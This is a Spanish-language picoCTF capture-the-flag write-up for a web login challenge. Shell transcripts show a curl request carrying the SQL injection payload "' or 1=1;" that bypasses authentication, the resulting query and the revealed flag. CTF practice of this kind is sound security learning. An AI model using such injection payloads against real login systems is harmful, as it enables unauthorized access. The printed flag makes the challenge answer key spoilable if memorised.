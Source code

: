 ## Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
#### hints
- There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.
## Solución
```shell
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d 'username=admin&password=admin'
<h1>Login failed.</h1>                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=' or 1=1;&password=admin&debug=1"
<pre>username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 

```
## Bandera
```css
flag: picoCTF{s0m3_SQL_fb3fe2ad}
```
## Notas Adicionales
Se intentó acceder a una página de inicio de sesión vulnerable a inyección SQL. En el primer intento, las credenciales `admin:admin` fallaron. En el segundo intento, se utilizó la inyección SQL `"username=' or 1=1;"`, que modifica la consulta SQL para que siempre sea verdadera (`1=1`), permitiendo el inicio de sesión sin credenciales válidas.
# comandos utilizados

## Referencias
